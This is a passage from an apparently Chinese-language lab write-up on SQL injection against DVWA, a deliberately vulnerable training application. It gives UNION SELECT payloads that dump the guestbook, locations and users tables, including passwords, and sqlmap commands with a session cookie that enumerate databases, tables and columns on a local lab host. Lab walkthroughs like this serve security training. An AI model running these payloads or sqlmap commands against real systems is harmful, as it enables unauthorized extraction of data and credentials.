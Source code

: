 - ###### guestbook表：


`1 union select group_concat(comment_id,comment),group_concat(name) from guestbook #`

![image-20211101194948677](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951841.png)

- ###### locations表：

`1 union select group_concat(name,latitude),group_concat(longtitude) from locations #`

![image-20211102214933359](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951091.png)

- ###### users表：

`1 union select group_concat(user_id,first_name,last_name,user),group_concat(password,avatar,last_login,failed_login) from users #`

![image-20211101195034342](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951117.png)



------

#### 【Medium-sqlmap】

##### ①sqlmap-POST

因为是POST操作，所以sqlmap需要增加参数 `--data="id=1&Submit=Submit"`。

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch`

![image-20211102220159049](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951550.png)

之后的操作基本上和Low一样。

##### ②简略过程

###### 使用 `--dbs`查看数据库

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch --dbs`

![image-20211102220424754](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951488.png)

###### 查看dvwa 数据库中的表

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa --tables`

![image-20211102220547085](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951506.png)

###### 查看表guestbook中的列和数据

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T guestbook --columns`
